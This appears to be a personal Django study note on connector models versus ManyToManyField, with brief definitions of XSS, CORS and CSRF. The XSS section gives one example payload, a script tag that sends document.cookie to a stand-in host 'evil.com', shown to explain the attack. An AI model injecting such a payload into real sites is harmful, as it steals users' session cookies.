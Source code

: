 
## Why Use a Connector Model Instead of ManyToManyField?
    1. Extra fields: You can add additional attributes to the relationship (e.g., quantity, status, etc.).
    2. Better control: You have more control over how relationships are managed, queried, and updated.
    3. Flexibility: The connector model provides more flexibility for complex relationships (e.g., filtering, sorting).
    4. Performance: You can optimize queries using select_related and prefetch_related, reducing the number of queries.
    5. Complex filtering: Easier to write complex queries and filters on relationships.
    6. Better database integrity: Allows you to manage the intermediate table structure, constraints, and indexing.
   
## When Might to Use ManyToManyField?
    1. The relationship between two models is purely many-to-many, and you don't need to store additional data on the relationship itself.
    2. when don’t need complex filtering, ordering, or aggregating based on the relationship.

## XSS (Cross-Site Scripting)
    XSS is a vulnerability where an attacker injects malicious scripts (usually JavaScript) into web pages viewed by other users.
    {
      "post_id": 42,
      "comment": "<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>"
    }

## CORS (Cross-Origin Resource Sharing)
    CORS is a browser security feature that controls which domains can access resources (like APIs) from a different domain using JavaScript.
    It protects your backend API from being accessed by unauthorized frontend sites — but only for JavaScript-based requests.
    

## CSRF(Cross-Site Request Forgery)
    - CSRF tricks a user into submitting a request they didn’t intend to, often using their logged-in credentials.
    - A <form> submission (CSRF attack): browser still sends it — CORS does nothing here.
    - CORS only applies to cross-origin JavaScript (AJAX/fetch) requests, not to form submissions.


